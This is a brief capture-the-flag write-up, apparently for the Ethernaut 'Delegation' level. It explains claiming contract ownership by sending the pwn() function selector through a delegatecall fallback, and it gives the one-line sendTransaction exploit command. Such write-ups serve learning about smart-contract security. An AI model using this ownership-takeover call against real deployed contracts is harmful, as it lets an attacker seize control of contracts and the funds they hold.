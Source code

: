 To solve this lvl we need to pass pwn() function indetifier as data in sendTransaction(). Contract will call pwn() and claim us ownership

Keecak256 of `pwn()`: `dd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab`. 

```
await contract.sendTransaction({data: '0xdd365b8b'})
```
